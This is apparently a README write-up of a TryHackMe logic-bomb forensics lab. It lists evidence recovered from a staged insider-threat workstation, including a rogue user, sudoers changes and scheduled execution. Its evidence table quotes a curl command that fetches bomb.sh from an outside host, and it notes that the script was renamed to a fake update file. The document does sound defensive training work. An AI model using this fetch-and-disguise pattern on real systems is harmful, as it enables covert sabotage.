# 🧨 Logic Bomb Forensics Investigation (TryHackMe)

This project documents my forensic investigation of a suspicious Linux machine during the **"Logic Bomb"** TryHackMe room scenario. I performed a full analysis of the system using CLI tools to uncover evidence of insider threat activity and a logic bomb set to execute under specific conditions.

---

## 🕵️ Scenario Summary

An employee from CyberT’s IT department was arrested for operating a phishing ring. Our task was to investigate their last workstation for evidence of sabotage or malicious behavior. By analyzing logs and files, we uncovered a logic bomb designed to damage systems if certain triggers were met.

---

## 🔧 Tools & Skills Demonstrated

- **Command-Line Tools:** `journalctl`, `grep`, `cat`, `curl`, `vi`
- **Linux Forensics:** Privilege escalation auditing, script analysis, file metadata
- **Threat Analysis:** Insider threats, logic bomb behavior, malicious automation
- **File & Cron Investigation:** User creation, sudo access modification, scheduled execution

---

## 📂 Key Evidence Recovered

| Action | Details |
|-------|---------|
| 📦 Package Installed | `/usr/bin/apt install dokuwiki` |
| 📁 Working Directory | `/home/cybert` |
| 👤 Suspicious User Created | `it-admin` |
| 🔐 Sudoers Modified | `Dec 28 06:27:34` |
| 📝 Script Created | `bomb.sh` |
| 🌐 Source of Script | `curl 10.10.158.38:8080/bomb.sh --output bomb.sh` |
| 🛠️ Renamed Script | `/bin/os-update.sh` |
| 📅 Modified Timestamp | `Dec 28 06:29` |
| 📄 File Created on Execution | `goodbye.txt` |
| ⏰ Scheduled Trigger | `08:00 AM` (via cron or scheduled task) |

---

## 📖 What I Learned

> This lab taught me how to trace suspicious Linux activity, analyze logs for privilege escalation, and reverse-engineer a logic bomb scenario using basic CLI tools. It sharpened my ability to investigate real-world sabotage tactics and understand how insider threats hide in plain sight.

---

## 💼 How This Applies in the Real World

- Detecting unauthorized user creation
- Tracking privilege escalation in system logs
- Identifying timed execution scripts (logic bombs)
- Recognizing file tampering or covert data destruction attempts

---

## 📎 Related Tags

`#linux-forensics` `#logic-bomb` `#tryhackme` `#malware-analysis` `#insider-threats` `#curl` `#bash-scripting` `#cybersecurity-project`



